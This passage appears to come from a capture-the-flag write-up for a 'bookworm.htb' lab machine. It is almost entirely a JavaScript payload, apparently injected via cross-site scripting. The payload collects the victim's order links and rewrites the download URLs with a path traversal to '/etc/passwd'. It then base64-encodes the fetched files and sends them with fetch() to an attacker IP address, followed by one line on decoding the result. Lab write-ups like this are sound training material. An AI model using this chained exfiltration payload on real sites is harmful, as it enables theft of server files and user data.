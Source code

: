 ```javascript
function getOrder(html_page) {
    const doc = new DOMParser().parseFromString(html_page, 'text/html');
    return Array.from(doc.querySelectorAll('tbody a'), link => "http://bookworm.htb" + link.getAttribute('href'));
}

function getDownload(html) {
    const downloadLink = (new DOMParser().parseFromString(html, 'text/html')).querySelector('a[href^="/download"]');
    return downloadLink ? downloadLink.href.replace(/=(.+)$/, "=.&bookIds=../../../../../../etc/passwd") : null;
}

function arrayBufferToBase64(buffer) {
    return btoa(String.fromCharCode(...new Uint8Array(buffer)));
}

function sendRequest(url) {
    const attacker = "http://10.10.14.13>/?url=" + encodeURIComponent(url);
    fetch(url).then(async res => {
        fetch(attacker + "&data=" + arrayBufferToBase64(await res.arrayBuffer()));
    });
}

async function getPdf(url) {
    const html = await (await fetch(url)).text();
    const download = getDownload(html);
    if (download) {
        sendRequest(download);
    }
}

fetch("http://bookworm.htb/profile")
    .then(res => res.text())
    .then(html => {
        const orders = getOrder(html);
        for (const path of orders) {
            getPdf(path);
        }
    });
// Generated by ChatGPT!
```

This would give us a huge base64 string, which can be decoded into a `.zip` file and unzipped to find the contents of `/etc/passwd`.
